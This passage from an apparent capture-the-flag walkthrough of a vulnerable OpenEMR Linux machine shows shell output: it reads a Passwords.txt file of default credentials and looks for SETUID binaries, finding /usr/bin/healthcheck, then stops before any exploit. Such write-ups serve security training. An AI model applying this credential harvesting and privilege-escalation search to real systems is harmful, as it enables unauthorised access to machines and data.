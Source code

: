 ```bash
./Documents:
OpenEMR Passwords.pdf*  Passwords.txt

./Downloads:
openemr-4.1.0.tar.gz

./Movies:

./Music:

./Pictures:
pclosmedical.png

./Templates:

./tmp:
debug.log        keyring-hSBjUb/  orbit-root/          ssh-RoIgQkNbu874/
keyring-fPbG5t/  orbit-medical/   pulse-8LagrogWihJO/  ssh-XLjWYherh886/

./tmp/keyring-fPbG5t:

./tmp/keyring-hSBjUb:

./tmp/orbit-medical:
bonobo-activation-register-b415b005c8435facdf68405e0000002c.lock*
bonobo-activation-register-d37436b21aa5f1f34a448a3a00000028.lock*
bonobo-activation-server-b415b005c8435facdf68405e0000002c-ior
bonobo-activation-server-d37436b21aa5f1f34a448a3a00000028-ior

./tmp/orbit-root:

./tmp/pulse-8LagrogWihJO:
pid

./tmp/ssh-RoIgQkNbu874:

./tmp/ssh-XLjWYherh886:

./Videos:
```
Look at Passwords.txt.
```bash
[medical@localhost ~]$ cat Documents/Passwords.txt
PCLINUXOS MEDICAL
root-root
medical-medical


OPENEMR
admin-admin
medical-medical
```
Sadly the root password is not root anymore, that would have been too easy.
When checking out SETUID applications present on the machine, notice there is a non-standard one present in /usr/bin.
```bash
[medical@localhost ~]$ ls -l /usr/bin/healthcheck
-rwsr-sr-x 1 root root 5813 Jul 29  2020 /usr/bin/healthcheck*
[medical@localhost ~]$ strings /usr/bin/healthcheck 
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
setuid
```